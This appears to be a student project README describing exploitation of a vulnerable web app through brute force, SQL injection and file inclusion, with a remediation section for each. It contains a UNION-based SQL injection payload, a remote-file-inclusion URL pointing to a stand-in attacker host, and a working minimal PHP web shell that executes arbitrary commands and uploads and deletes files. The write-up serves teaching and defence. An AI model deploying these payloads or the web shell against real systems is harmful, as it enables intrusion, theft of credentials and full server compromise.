 # Web Hack - Vulnerability Exploitation

## Overview

This project focuses on exploiting three major vulnerabilities within a web platform: **brute force attacks**, **SQL injection**, and **file inclusion**. Below are the steps I followed to take advantage of these vulnerabilities, the tools I used, and how I fixed each one. The project also includes the development of a **PHP web shell** (C99/R57 type), which allows file manipulation (upload, delete) and command execution on the target server.

---

## Vulnerabilities Exploited

### 1. Brute Force Attack on Username and Password

#### Exploitation (BFA)

- **Vulnerability**: The login system lacked sufficient protection against brute-force attacks, meaning it was possible to try multiple username-password combinations without any rate-limiting or captcha protection.
- **Method**: I used a tool called `Hydra` to automate requests to the login page, iterating over common passwords and usernames until I gained access.

#### How to Fix (BFA)

- **Rate Limiting**: Implement rate limiting to restrict the number of login attempts from a single IP address.
- **Account Locking**: After a certain number of failed login attempts, temporarily lock the user’s account and notify them.
- **CAPTCHA**: Add CAPTCHA after a few failed login attempts to prevent automated brute-force attacks.

---

### 2. SQL Injection

#### Exploitation (SQLi)

- **Vulnerability**: The web platform was vulnerable to SQL injection on querying for first name, last name by ID. There was no input sanitization or use of parameterized queries.
- **Method**: By injecting SQL code into vulnerable input fields (e.g., ), I was able to extract sensitive data like usernames and passwords from the database.
  
  ### Example payload
  
  Before:

  ```sql
    SELECT first_name, last_name FROM users WHERE id = '1';
  ```

  After:

  ```sql
  SELECT first_name, last_name FROM users WHERE id = '1' 
  UNION SELECT NULL, password FROM users; -- -';
  ```

#### How to Fix (SQLi)

- **Prepared Statements**: Use prepared statements with parameterized queries to avoid direct injection of user input into SQL queries.
- **Input Validation**: Sanitize and validate all inputs to ensure they are of the expected type, format, and length.
- **WAF**: Implement a Web Application Firewall (WAF) to detect and block SQL injection attempts.

---

### 3. File Inclusion

#### Exploitation (File Inclusion)

- **Vulnerability**: The platform allowed for **local file inclusion (LFI)** and **remote file inclusion (RFI)**, where an attacker could manipulate file paths to include arbitrary files (e.g., configuration files or sensitive system files).
- **Method**: I exploited the file inclusion vulnerability by injecting paths into a parameter, allowing me to access and read sensitive files from the web server.
  
  Example payload:

  ```url
  `?file=http://evil.website.com/evil.php`
  ```

#### How to Fix (File Inclusion)

- **Input Validation**: Restrict file paths and validate inputs to prevent path traversal or unauthorized file inclusion.
- **Use of Whitelists**: Allow only predefined files or paths to be included by maintaining a strict whitelist of allowed files.
- **Disable RFI**: If remote file inclusion is not needed, disable it in the server configuration (`allow_url_include=0` in php.ini).

---

## C99/R57 Type PHP Web Shell

To further demonstrate the risks of these vulnerabilities, I developed a **C99/R57 type PHP web shell** that allows attackers to upload, delete files, and execute arbitrary commands on the server. This shell can be accessed once the vulnerabilities are exploited.

### Shell Features

- **File Upload**: Allows uploading arbitrary files to the server.
- **File Deletion**: Deletes specified files.
- **Command Execution**: Executes arbitrary shell commands.

### Example PHP Web Shell

#### The real Shell can be found in the same directory as this `README.md` but the below is just an example of the basics

```php
<?php
if(isset($_POST['cmd'])){
    system($_POST['cmd']);
}

if(isset($_FILES['file'])){
    move_uploaded_file($_FILES['file']['tmp_name'], $_FILES['file']['name']);
    echo "File uploaded.";
}

if(isset($_POST['delete'])){
    unlink($_POST['delete']);
    echo "File deleted.";
}
?>
```

### How to Fix

- **File Upload Validation**: Validate the file type and size when allowing file uploads, and store files outside the web root.
- **Access Control**: Ensure sensitive operations like file uploads and deletions are protected by strong authentication and access controls.
- **Disable Dangerous Functions**: Disable potentially dangerous PHP functions such as `system()`, `exec()`, and `shell_exec()` unless absolutely necessary.

---

## Steps to Prevent Vulnerabilities (Conclusion)

1. **Brute Force Prevention**:
   - Implement rate limiting, CAPTCHA, and account locking mechanisms.

2. **SQL Injection Prevention**:
   - Use prepared statements and sanitize all inputs.

3. **File Inclusion Prevention**:
   - Whitelist allowable files and validate input to prevent directory traversal.

---
